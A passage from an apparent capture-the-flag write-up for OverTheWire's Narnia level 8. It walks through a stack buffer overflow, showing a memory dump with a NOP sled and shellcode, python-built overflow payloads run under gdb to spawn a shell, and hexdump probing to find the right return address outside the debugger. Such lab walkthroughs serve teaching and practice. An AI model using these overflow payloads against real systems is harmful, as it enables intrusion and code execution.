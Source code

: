 ```
0xffffd894:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd8a4:	0x90909090	0x90909090	0x90909090	0xddda9090
0xffffd8b4:	0xf42474d9	0xf4af75bb	0xc9315a7f	0xc2830bb1
0xffffd8c4:	0x165a3104	0xe2165a03	0x27ffc580	0xb06648f3
0xffffd8d4:	0xa7ef0e2e	0x4f9cff58	0xf24d9798	0x111b09f1
0xffffd8e4:	0xd6133e53	0xb40bbe53	0x4b7cd03a	0xf8d42cd4
---snip---
```
I choose 0xffffd894 as it's somewhere in the middle of the NOP sled and will give us some leeway on either side.
Replacing "ZZZZ" in our buffer with this address gives us a shell in gdb:
```
(gdb) run $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "A"*12 +"\x94\xd8\xff\xff"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /narnia/narnia8 $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "A"*12 +"\x94\xd8\xff\xff"')

Breakpoint 1, 0x080484a7 in func ()
(gdb) cont
Continuing.
AAAAAAAAAAAAAAAAAAAAa���AAAAAAAAAAAA����a���
process 651 is executing new program: /bin/dash
Error in re-setting breakpoint 1: No symbol table is loaded.  Use the "file" command.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
Error in re-setting breakpoint 1: No symbol "func" in current context.
$ 
```
Now comes the hardest part of this exercise: getting a shell outside of gdb. GDB itself changes the memory addresses, so now we'll need to find `blah`'s address without gdb's aid.

We won't have to do this completely blindly, but will require some manual fuzzing.

`hexdump` will output the hex values of whatever input it's given. We can use this to peek into the stack a little bit.
```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x61\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"') | hexdump
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4161 ffff[1] 0a02 
```
We're currently have 0xffff4161 in the stack. The second byte was overwritten with 41, which means the address we have in our buffer is pointing to somewhere in our buffer of "A"'s.

Moving down the address space (towards higher memory addresses):
```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x70\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"') | hexdump
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 4170 ffff 0a02               

narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x71\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"') | hexdump
0000000 4141 4141 4141 4141 4141 4141 4141 4141
0000010 4141 4141 7171[1] ffff 0a02 
```
That's interesting. We now have 0xffff7171. The first 0x71 gets placed onto the last byte of `blah` due to our buffer. `blok[21]` now ends up pointing to `\x71` in our buffer when it needs to point to `\xd8`, the next byte over.  
So  moving up one more byte should give us the correct address.
```
narnia8@narnia:~$ /narnia/narnia8 $(python -c 'print "A" * 20 + "\x72\xd8\xff\xff" + "B"*12 +"\x94\xd8\xff\xff"')          
AAAAAAAAAAAAAAAAAAAAr���BBBBBBBBBBBB����r���
```

[overthewire]: https://www.overthewire.org